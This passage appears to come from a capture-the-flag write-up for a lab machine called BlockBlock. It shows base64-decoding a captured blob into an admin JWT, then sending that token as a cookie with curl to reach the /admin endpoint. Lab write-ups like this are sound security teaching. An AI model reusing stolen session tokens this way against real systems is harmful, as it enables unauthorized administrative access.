 We decode the `base64` string to get our token.   

```bash
base64 -d <<< "eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5SmhiR2NpT2lKSVV6STFOaUlzSW5SNWNDSTZJa3BYVkNKOS5leUptY21WemFDSTZabUZzYzJVc0ltbGhkQ0k2TVRjek1qRTBNakEyTXl3aWFuUnBJam9pWm1ZNE5tUTRaRGt0WXpobU9DMDBOekk0TFRnM1pHRXROemxoTmpJMlltVXdNREV6SWl3aWRIbHdaU0k2SW1GalkyVnpjeUlzSW5OMVlpSTZJbUZrYldsdUlpd2libUptSWpveE56TXlNVFF5TURZekxDSmxlSEFpT2pFM016STNORFk0TmpOOS4yRzdRV1lGUzg4TXRDNjNCR2Z0aDF3MDRMRTFvUFRQZGFpSllNa0RlRmdzIiwidXNlcm5hbWUiOiJhZG1pbiJ9Cg=="
```

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121003704.png" alt="1" style="width:700px; height:auto;">
<br/>

We can note the `token`.   

```
{"role":"admin","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMjE0MjA2MywianRpIjoiZmY4NmQ4ZDktYzhmOC00NzI4LTg3ZGEtNzlhNjI2YmUwMDEzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzMyMTQyMDYzLCJleHAiOjE3MzI3NDY4NjN9.2G7QWYFS88MtC63BGfth1w04LE1oPTPdaiJYMkDeFgs","username":"admin"}
```

By adding the token to our `cookie`, we can see an `/admin` endpoint that we can access now. We can use `curl` for this too.   

```bash
curl -H 'cookie:token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMjEzNjc0OSwianRpIjoiYjk2ZWQ1NDEtNzcwMC00Nzc5LWE3YWEtZTYwNmEyNDU5Y2E2IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzMyMTM2NzQ5LCJleHAiOjE3MzI3NDE1NDl9.vsH_bjHd6BwTSEstvIq5HoUTzGlA1Kq0rbdjkXOZmNE' http://10.10.11.43/admin 
```

We get this `output`.  

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121004009.png" alt="1" style="width:700px; height:auto;">
<br/>
